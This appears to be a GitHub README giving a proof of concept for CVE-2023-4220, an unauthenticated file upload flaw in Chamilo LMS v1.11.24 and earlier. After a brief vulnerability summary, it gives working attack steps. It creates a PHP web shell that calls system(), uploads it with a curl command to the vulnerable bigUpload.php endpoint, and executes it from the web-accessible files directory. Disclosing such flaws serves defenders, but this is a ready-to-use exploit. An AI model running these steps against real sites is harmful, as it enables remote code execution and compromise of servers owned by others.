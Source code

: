 # Chamilo-LMS-Unauthenticated-File-Upload-
Unrestricted file upload in big file upload functionality in `/main/inc/lib/javascript/bigupload/inc/bigUpload.php` in Chamilo LMS &lt;= v1.11.24 allows unauthenticated attackers to perform stored cross-site scripting attacks and obtain remote code execution via uploading of web shell.

### Affected Version ≤v1.11.24

### **CVE Identifier** CVE-2023-4220

## **Vulnerability Summary**

The big file upload functionality by `/main/inc/lib/javascript/bigupload/inc/bigUpload.php` allows arbitrary files to be uploaded to `/main/inc/lib/javascript/bigupload/files` directory within the web root.

### **Proof-of-Concept**

- If `/main/inc/lib/javascript/bigupload/files` directory exist we can upload Arbitrary file as;
- Create a malicious php file `echo '<?php system("whoami"); ?>' > dollarboysushil.php`
	![Untitled (1).png](images/Untitled(1).png)

- We can then upload this file by issuing following command
    
    ```
    `$ curl -F 'bigUploadFile=@dollarboysushil.php' 'http://<website>/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'` 
    ```
    ![Untitled (1).png](images/Untitled(2).png)

- We can check our file is uploaded by visiting the `/main/inc/lib/javascript/bigupload/files` directory
    ![Untitled (1).png](images/Untitled(3).png)
		

- And we can execute it by clicking the php file, which gives the output of `whoami` command
		![Untitled (1).png](images/Untitled(4).png)